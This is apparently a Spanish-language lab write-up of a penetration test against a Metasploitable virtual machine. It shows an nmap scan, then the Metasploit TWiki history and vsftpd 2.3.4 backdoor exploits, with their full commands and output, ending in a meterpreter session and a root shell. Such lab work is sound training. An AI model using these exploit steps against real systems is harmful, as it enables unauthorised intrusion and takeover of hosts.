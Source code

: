Ubuntu:
-Obtener información del sistema vulnerable
Con la herramienta nmap escaneamos la dirección del sistema vulnerable.

   $ nmap -sV -Pn 192.168.1.141
   Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 11:46 EDT
   Nmap scan report for 192.168.1.141
   Host is up (0.0084s latency).
   Not shown: 977 closed tcp ports (conn-refused)
   PORT     STATE SERVICE     VERSION
   21/tcp   open  ftp         vsftpd 2.3.4
   22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
   23/tcp   open  telnet      Linux telnetd
   25/tcp   open  smtp        Postfix smtpd
   53/tcp   open  domain      ISC BIND 9.4.2
   80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
   111/tcp  open  rpcbind     2 (RPC #100000)
   139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
   445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
   512/tcp  open  exec        netkit-rsh rexecd
   513/tcp  open  login
   514/tcp  open  tcpwrapped
   1099/tcp open  java-rmi    GNU Classpath grmiregistry
   1524/tcp open  bindshell   Metasploitable root shell
   2049/tcp open  nfs         2-4 (RPC #100003)
   2121/tcp open  ftp         ProFTPD 1.3.1
   3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
   5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
   5900/tcp open  vnc         VNC (protocol 3.3)
   6000/tcp open  X11         (access denied)
   6667/tcp open  irc         UnrealIRCd
   8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
   8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
   Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
   
   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 12.02 seconds


-Explorar e identificar vulnerabilidades del sistema 
Con la heramienta metasploid framework indentificamos 2 vulnerabilidades: proftp y ssh.

msf6 exploit(unix/ftp/proftpd_133c_backdoor) > search exploit/unix/webapp/twiki_historysae
95   exploit/unix/webapp/twiki_history                                  2005-09-14       excellent  Yes    TWiki History TWikiUsers rev Parameter Command Execution

msf6 > search ssh_login

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/ssh_login                          normal  No     SSH Login Check Scanner
   1  auxiliary/scanner/ssh/ssh_login_pubkey                   normal  No     SSH Public Key Login Scanner


Explotar las vulnerabilidades

En mi caso voy a explotar el puerto 80 mediante el modulo exploit/unix/webapp/twiki_history)
   exploit(unix/webapp/twiki_history) > 
   [+] Successfully sent exploit request
   [*] Started bind TCP handler against 192.168.1.141:4444
   [*] Command shell session 2 opened (192.168.1.138:46177 -> 192.168.1.141:4444) at 2023-10-10 12:11:14 -0400

vemos las sesiones activas:

   msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 

   Active sessions
   ===============
   
     Id  Name  Type                 Information           Connection
     --  ----  ----                 -----------           ----------
     3         meterpreter x86/lin  www-data @ metasploi  192.168.1.138:4433 -
               ux                   table.localdomain     > 192.168.1.141:4631
                                                          8 (192.168.1.141)

usamos el modulo post/multi/manage/shell_tometerpreter:

 msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 3
   [*] Starting interaction with 3...

   meterpreter > ifconfig

   Interface  1
   ============
   Name         : lo
   Hardware MAC : 00:00:00:00:00:00
   MTU          : 16436
   Flags        : UP,LOOPBACK
   IPv4 Address : 127.0.0.1
   IPv4 Netmask : 255.0.0.0
   IPv6 Address : ::1
   IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::
   
   
   Interface  2
   ============
   Name         : eth0
   Hardware MAC : 08:00:27:b1:b5:c7
   MTU          : 1500
   Flags        : UP,BROADCAST,MULTICAST
   IPv4 Address : 192.168.1.141
   IPv4 Netmask : 255.255.255.0
   IPv6 Address : fe80::a00:27ff:feb1:b5c7
   IPv6 Netmask : ffff:ffff:ffff:ffff::

Ahora vamos a explotar el puerto 21 de ftp:
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf6 > use exploit/unix/ftp/vsftpd_234_backdoor 
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.1.141
rhosts => 192.168.1.141
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.1.141:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.141:21 - USER: 331 Please specify the password.
[+] 192.168.1.141:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.141:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.138:36243 -> 192.168.1.141:6200) at 2023-10-10 13:00:58 -0400

Ahora podemos tener a nuestra disposicion el sistema de ficheros del host vulnerable:
   pwd
   /
   ls -la
   total 89
   drwxr-xr-x  21 root root  4096 May 20  2012 .
   drwxr-xr-x  21 root root  4096 May 20  2012 ..
   drwxr-xr-x   2 root root  4096 May 13  2012 bin
   drwxr-xr-x   4 root root  1024 May 13  2012 boot
   lrwxrwxrwx   1 root root    11 Apr 28  2010 cdrom -> media/cdrom
   drwxr-xr-x  14 root root 13540 Oct 10 11:43 dev
   drwxr-xr-x  94 root root  4096 Oct 10 11:43 etc
   drwxr-xr-x   6 root root  4096 Apr 16  2010 home
   drwxr-xr-x   2 root root  4096 Mar 16  2010 initrd
   lrwxrwxrwx   1 root root    32 Apr 28  2010 initrd.img -> boot/initrd.img-2.6.24-16-server
   drwxr-xr-x  13 root root  4096 May 13  2012 lib
   drwx------   2 root root 16384 Mar 16  2010 lost+found
   drwxr-xr-x   4 root root  4096 Mar 16  2010 media
   drwxr-xr-x   3 root root  4096 Apr 28  2010 mnt
   -rw-------   1 root root  5821 Oct 10 11:43 nohup.out
   drwxr-xr-x   2 root root  4096 Mar 16  2010 opt
   dr-xr-xr-x 112 root root     0 Oct 10 11:43 proc
   drwxr-xr-x  13 root root  4096 Oct 10 11:43 root
   drwxr-xr-x   2 root root  4096 May 13  2012 sbin
   drwxr-xr-x   2 root root  4096 Mar 16  2010 srv
   drwxr-xr-x  12 root root     0 Oct 10 11:43 sys
   drwxrwxrwt   4 root root  4096 Oct 10 12:28 tmp
   drwxr-xr-x  12 root root  4096 Apr 28  2010 usr
   drwxr-xr-x  14 root root  4096 Mar 17  2010 var
   lrwxrwxrwx   1 root root    29 Apr 28  2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server





